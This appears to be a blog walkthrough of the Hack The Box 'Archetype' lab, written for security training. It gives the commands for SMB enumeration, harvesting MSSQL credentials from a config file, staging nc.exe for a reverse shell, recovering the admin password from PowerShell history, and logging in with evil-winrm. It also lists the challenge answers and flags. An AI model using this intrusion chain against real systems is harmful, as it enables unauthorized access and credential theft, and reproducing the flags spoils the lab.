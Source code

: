 ```yaml
---
layout: single
title: Archetype - Hack The Box
excerpt: "In this machine, we take advantage of an SMB misconfiguration, exploit an MSSQL database, and escalate privileges through regular expressions in a Windows system."
date: 2025-03-12
classes: wide
header:
  teaser: /img2/archetype.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Very Easy
tags:
  - SMB
  - MSSQL
  - Windows Privilege Escalation
---
```




![](/img2/Pasted%20image%2020250312171234.png)

## Introduction

> In this machine, we take advantage of an SMB misconfiguration, exploit an MSSQL database, and escalate privileges through regular expressions in a Windows system.

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.95.187
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.95.187
```

![](/img2/Pasted%20image%2020250312171557.png)

- SMB service enumeration

```bash
smbclient -L 10.129.95.187 -N
```

![](/img2/Pasted%20image%2020250312171901.png)

- Get backups content

```bash
smbclient //10.129.95.187/backups -N
```

![](/img2/Pasted%20image%2020250312172345.png)

```bash
cat prod.dtsConfig
```

![](/img2/Pasted%20image%2020250312172525.png)


## Exploitation

- Connect to MSSQL database

```bash
tsql -H 10.129.95.187 -p 1433 -U "ARCHETYPE\sql_svc" -P "M3g4c0rp123"
```

![](/img2/Pasted%20image%2020250312180107.png)

- Reverse shell

- Download files and upload in Python HTTP server

```bash
python3 -m http.server 8000
```

![](/img2/Pasted%20image%2020250312201446.png)

- Install nc.exe in Windows machine

![](/img2/Pasted%20image%2020250312184620.png)

- Send reverse shell

![](/img2/Pasted%20image%2020250312194628.png)

```bash
nc -nlvp 9000
```

![](/img2/Pasted%20image%2020250312184828.png)

## Post-exploitation

- Get user flag

![](/img2/Pasted%20image%2020250312180914.png)

- List all txt files

```powershell
dir -Force -Recurse C:\Users\*.txt 2>$null | sls -Pattern "admin" 2>$null | Select-Object -Unique Path
```

![](/img2/Pasted%20image%2020250312195031.png)

> dir -Force -Recurse * .txt --> List all txt files and directories

> sls -Pattern "admin" --> Search "admin" word 

> select -Unique Path --> Show unique path

- Open file

```bash
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![](/img2/Pasted%20image%2020250312201301.png)

- Connect with Administrator user

```bash
evil-winrm -i 10.129.95.187 -u Administrator -p MEGACORP_4dm1n\!\!
```

![](/img2/Pasted%20image%2020250312202327.png)

## Tasks

1. Which TCP port is hosting a database server?
> 1433

2. What is the name of the non-Administrative share available over SMB?
> backups

3. What is the password identified in the file on the SMB share?
> M3g4c0rp123

4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?
> mssqlclient.py

5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
> xp_cmdshell

6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?
> winPeas

7. What file contains the administrator's password?
> ConsoleHost_history.txt

8. Submit user flag
> 3e7b102e78218e935bf3f4951fec21a3

9. Submit root flag
> b91ccec3305e98240082d4474b848528


![](/img2/Pasted%20image%2020250312202923.png)